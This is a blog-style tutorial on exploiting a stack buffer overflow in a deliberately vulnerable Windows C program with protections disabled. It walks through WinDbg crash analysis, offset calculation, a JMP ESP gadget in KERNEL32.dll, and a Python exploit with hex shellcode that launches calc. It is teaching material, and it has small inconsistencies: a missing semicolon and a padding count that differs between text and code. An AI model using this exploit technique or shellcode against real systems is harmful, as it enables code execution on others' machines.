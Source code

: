 ```yaml
---
layout: post
title:  "How to detect and exploit a buffer overflow"
---
```


The buffer overflow is the most classical vulnerability, on Linux and on Windows.
In this article, I will try to show you how to exploit a buffer overflow on 
Windows with WinDbg and a little Python code.


## Etablishment

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char tmp[100];

	getchar()
	strcpy(tmp, argv[1]);
	printf("argv[1]: %s", tmp);

	return 0;
}
```

If you want to compile it with Visual Studio, don’t forget to deactivate some 
protections. Open *Project -> Properties* and set:

```
    Stack cookie: C/C++ -> Code generation -> Buffer Security Check = No
    ASLR: Linker -> Advanced -> Randomized Base Address = No
    DEP: Linker -> Advanced -> Data Execution Protection = No
``` 

And compile in *Release mode*.


## Exploitation

We will test `argv[1]` entry:

```py
import os 
os.system('bof.exe '+'A'*200);
``` 

We start our Python script, WinDbg and we do File -> Attach to a Process. 
We continue the script execution and we get:

```
(598.11cc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
41414141 ??              ???
``` 

Boom! We could control EIP!
We check:

```
0:000:x86> r
eax=00000000 ebx=00000000 ecx=72e75617 edx=0008e3b8 esi=00000001 edi=00403378
eip=41414141 esp=0018ff4c ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
```

*0x41* is 'A' in ASCII code, so we can control the execution address and execute 
our shellcode. We look at the stack to know how many 'A' we need to remove:

```
0:000:x86> dd esp
0018ff4c  41414141 41414141 41414141 41414141
0018ff5c  41414141 41414141 41414141 41414141
0018ff6c  41414141 41414141 41414141 41414141
0018ff7c  41414141 41414141 41414141 41414141
0018ff8c  41414141 41414141 41414141 41414141
0018ff9c  41414141 41414141 41414141 00000000
0018ffac  7efde000 00000000 00000000 00000000
0018ffbc  0018ffa0 00000000 ffffffff 775470d5
```

We change our Python script and we test once again:

```
0:000:x86> ? 0018ffac - 4 - 0018ff4c
Evaluate expression: 92 = 0000005c
```
```py
import os 
os.system('bof.exe '+'A'*104+'B'*4);
```

And execute it:

```
(e70.868): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
42424242 ??              ???
```

We need a 102 bytes padding, followed by the shellcode address and finally the
shellcode. But we have a problem: the shellcode will contain a null byte.
In fact, if we want to do that:

```py
import os 

padding = '\x90'*104 # NOP
eip = '\x4c\xff\x18\x00' # 0018ff4c

os.system('bof.exe '+ padding + eip);
```

We see that EIP wil contain a null byte and the shellcode will not work. So we 
will use the technique of JMP ESP.


## JMP ESP

We need to find a JMP ESP with *findjmp2*.
We dump the modules list:

```
ModLoad: 00000000`00400000 00000000`00405000   C:\Users\Dimitri\Desktop\bof.exe
ModLoad: 00000000`772f0000 00000000`7749c000   C:\Windows\SYSTEM32\ntdll.dll
ModLoad: 00000000`774d0000 00000000`77650000   ntdll.dll
ModLoad: 00000000`74fd0000 00000000`7500f000   C:\Windows\SYSTEM32\wow64.dll
ModLoad: 00000000`74f70000 00000000`74fcc000   C:\Windows\SYSTEM32\wow64win.dll
ModLoad: 00000000`74f60000 00000000`74f68000   C:\Windows\SYSTEM32\wow64cpu.dll
ModLoad: 00000000`75c10000 00000000`75d20000   KERNEL32.dll
ModLoad: 00000000`76080000 00000000`760c7000   KERNELBASE.dll
ModLoad: 00000000`73860000 00000000`7391f000   MSVCR100.dll
ModLoad: 00000000`10000000 00000000`1005a000   guard32.dll
ModLoad: 00000000`752d0000 00000000`753d0000   USER32.dll
ModLoad: 00000000`75570000 00000000`75600000   GDI32.dll
ModLoad: 00000000`75530000 00000000`7553a000   LPK.dll 
ModLoad: 00000000`75630000 00000000`756cd000   USP10.dll
ModLoad: 00000000`757c0000 00000000`7586c000   msvcrt.dll
ModLoad: 00000000`77030000 00000000`770d0000   ADVAPI32.dll
ModLoad: 00000000`752b0000 00000000`752c9000   SECHOST.dll
ModLoad: 00000000`756d0000 00000000`757c0000   RPCRT4.dll
ModLoad: 00000000`75030000 00000000`75090000   SspiCli.dll
ModLoad: 00000000`75020000 00000000`7502c000   CRYPTBASE.dll
ModLoad: 00000000`74f50000 00000000`74f59000   VERSION.dll
ModLoad: 00000000`76f10000 00000000`76f70000   IMM32.dll
ModLoad: 00000000`751e0000 00000000`752ac000   MSCTF.dll
ModLoad: 00000000`74ee0000 00000000`74ee7000   FLTLIB.DLL
```
```
C:\Users\Dimitri\Desktop>findjmp.exe KERNEL32.dll esp

Findjmp, Eeye, I2S-LaB
Findjmp2, Hat-Squad
Scanning KERNEL32.dll for code useable with the esp register
0x75C32EA9      push esp - ret
0x75C32EB1      push esp - ret
0x75C32EB9      push esp - ret
0x75C32EC1      push esp - ret
0x75C32EC9      push esp - ret
0x75C32ED1      push esp - ret
0x75C32ED9      push esp - ret
0x75C32EE1      push esp - ret
0x75C32EE9      push esp - ret
0x75C32EF1      push esp - ret
0x75C3EF93      call esp
0x75C40405      jmp esp
0x75C493A3      call esp
0x75C9D26F      call esp
Finished Scanning KERNEL32.dll for code useable with the esp register
Found 14 usable addresses
```

So we can choose a gadget and try:

```py
import os 

padding = '\x90'*104        # NOP
jmpESP = '\xA9\x2E\xC3\x75' # *75C32EA9 = jmp esp
shellcode = '\xCC'*4        # INT 3

os.system('bof.exe '+ padding + jmpESP + shellcode);
```

```
0:001> g
(1378.10f0): WOW64 breakpoint - code 4000001f (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
0018ff4c cc              int     3

0:000:x86> u
0018ff4c cc              int     3
0018ff4d cc              int     3
0018ff4e cc              int     3
0018ff4f cc              int     3
0018ff50 002d5000501b    add     byte ptr ds:[1B500050h],ch
0018ff56 50              push    eax
0018ff57 00bd1cf87000    add     byte ptr [ebp+70F81Ch],bh
0018ff5d 0000            add     byte ptr [eax],al
```

So we trigger the instruction `int 3`. Now we will try with a real shellcode to 
pop a calc:

```py
import os 

padding = '\x90'*104        # NOP
jmpESP = '\xA9\x2E\xC3\x75' # *75C32EA9 = jmp esp

# http://code.google.com/p/w32-exec-calc-shellcode/
shellcode =	("\x31\xD2\x52\x68\x63\x61\x6C\x63\x89\xE6\x52\x56\x64\x8B\x72\x30"
			"\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B\x30\x8B\x7E\x18\x8B\x5F\x3C\x8B"
			"\x5C\x1F\x78\x8B\x74\x1F\x20\x01\xFE\x8B\x4C\x1F\x24\x01\xF9\x0F"
			"\xB7\x2C\x51\x42\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xF1\x8B\x74"
			"\x1F\x1C\x01\xFE\x03\x3C\xAE\xFF\xD7\xCC");

os.system('bof.exe '+ padding + jmpESP +'"'+shellcode+'"');
```